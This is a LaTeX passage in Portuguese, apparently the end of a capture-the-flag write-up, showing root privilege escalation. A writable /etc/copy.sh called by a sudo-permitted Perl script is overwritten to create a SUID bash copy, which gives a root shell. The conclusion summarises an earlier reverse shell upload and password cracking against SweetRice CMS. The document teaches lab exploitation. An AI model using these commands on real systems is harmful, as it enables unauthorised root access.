 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}[caption={Conteúdo do script executado como root}, label={lst:backup_pl}]
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
\end{lstlisting}

Como o arquivo \textit{/etc/copy.sh} possui permissão de escrita para o
usuário atual, podemos substituir seu conteúdo por comandos que criam uma
cópia SUID do Bash:

\begin{lstlisting}[caption={Preparação do script de cópia}, label={lst:copy_sh}]
$ echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /etc/copy.sh
\end{lstlisting}

Em seguida, executamos o script autorizado pelo sudo. Os comandos presentes
em \textit{/etc/copy.sh} serão executados com os privilégios efetivos de
root:

\begin{lstlisting}[caption={Execução do script com privilégios elevados}, label={lst:execute_backup}]
$ sudo /usr/bin/perl /home/itguy/backup.pl
\end{lstlisting}

O arquivo criado em \textit{/tmp/rootbash} possui o bit SUID. A opção
\textit{-p} faz com que o Bash preserve os privilégios efetivos do
proprietário do arquivo:

\begin{lstlisting}[caption={Obtenção da shell root}, label={lst:root_shell}]
$ /tmp/rootbash -p
rootbash-5.0# whoami
root
\end{lstlisting}

Com a shell privilegiada, podemos ler a flag final armazenada no diretório
do usuário root:

\begin{lstlisting}[caption={Leitura da flag de root}, label={lst:root_flag}]
rootbash-5.0# cat /root/root.txt
\end{lstlisting}



\section{Conclusão}

A exploração começou com a enumeração das portas e a identificação do CMS
SweetRice na aplicação web. O backup exposto do banco de dados forneceu a
hash da senha do usuário administrativo, que foi quebrada e utilizada para
acessar o painel. A partir da funcionalidade de upload, foi enviada uma
shell reversa, obtendo acesso como \textit{www-data}. Por fim, a permissão
de executar \textit{backup.pl} como root, combinada com a possibilidade de
alterar \textit{/etc/copy.sh}, permitiu criar uma cópia SUID do Bash e obter
acesso ao usuário root.
\end{document}

